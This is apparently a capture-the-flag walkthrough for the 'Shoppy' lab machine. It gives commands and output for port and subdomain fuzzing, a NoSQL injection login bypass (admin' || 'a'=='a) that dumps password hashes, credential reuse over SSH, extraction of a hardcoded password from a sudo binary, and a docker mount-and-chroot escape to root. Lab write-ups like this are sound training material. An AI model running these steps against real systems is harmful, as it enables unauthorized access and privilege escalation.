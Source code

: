 # SHOPPY WALKTHROUGH

## 1 - Scan ports


command:

```
nmap -sV -sT -sC 10.129.207.108
```
result:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-20 20:02 -03
Nmap scan report for shoppy.htb (10.129.207.108)
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page        
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2 - Directory enumeration

command:

```
gobuster dir -u http://shoppy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

result:

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/20 20:42:13 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/admin                (Status: 302) [Size: 28] [--> /login]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/Admin                (Status: 302) [Size: 28] [--> /login]
```


## 2 - Exploit Login page

Nosql injection was used  to this case 

command inside the directory of ffuf after cloned it from github:


```
./ffuf -u http://shoppy.htb/login -c -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'
```

result:

```
:: Progress: [22/22] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:' || 'a'=='a            [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 453ms]
```

used the payload in the username field 

 ```
admin' || 'a'=='a
```

 and any value in the password field.

## 3 - Exploit search for users page

http://shoppy.htb/admin/search-users

used the same payload in the field search:

 ```
admin' || 'a'=='a
```

it returnd me a json file to download with the following credentials:

```
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

cracked josh password(md5)(https://crackstation.net/): ```remembermethisway```

## 4 - DNS Enumeration

command:

```
./ffuf -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shoppy.htb"
```

result:

```
alpblog                [Status: 200, Size: 2178, Words: 853, Lines: 57, Duration: 185ms]
mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 185ms]
 www                    [Status: 200, Size: 2178, Words: 853, Lines: 57, Duration: 199ms]
:: Progress: [2178752/2178752] :: Job [1/1] :: 233 req/sec :: Duration: [2:50:18] :: Errors: 1413 ::
```
 ```
 alpblog.shoppy.htb
mattermost.shoppy.htb
```

## 5 - LOGIN AT mattermost.shoppy.htb

Logged in using the josh credentials in the conversation between 
user in the chat page I found another credentials

```
username: jaeger
password: Sh0ppyBest@pp!
```

## 5 - CONNECT VIA SSH USING jaeger CREDENTIALS

Used jaeger credentials to connect via ssh and get the user flag:

```
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  Templates  Videos  shoppy_start.sh  user.txt
```

## 6 - FIND password-maneger in deploy FILES

Josh and Jess talked about a password-manager that if we look for permissions using:

```
sudo -l 
```
We will see we can run it as deploy user:

```
User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```
This way we will run the following command as deploy user

```
sudo -u deploy /home/deploy/password-manager
```
And this open the password-manager that ask for a password:
```
Welcome to Josh password manager!
Please enter your master password:
```
We don`t have this password, lets see inside source code:
```
cat password-manager
```

We can see this strings:
```
Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
```
Lets use `Sample` as our password.

Again: 

```
sudo -u deploy /home/deploy/password-manager
```
```
Welcome to Josh password manager!
Please enter your master password: Sample
```
And the result is:

```
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```
Lets use the new user:

```
ssh deploy@10.10.11.180
```

7 - DOCKER EXPLOIT

Lets look into the images running in the machine:

command:
```
docker images
```
result:
```
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   2 months ago   5.53MB
```

An alpine image running, lets try use this exploits https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

command: 
```
docker run -it -v /:/host/ alpine chroot /host/ bash
```
result:
```
$ docker run -it -v /:/host/ alpine chroot /host/ bash
root@135c6d7929a3:/#
```

Ok now we are root!

command:
```
cd root
cat root.txt
```
And we have root key.

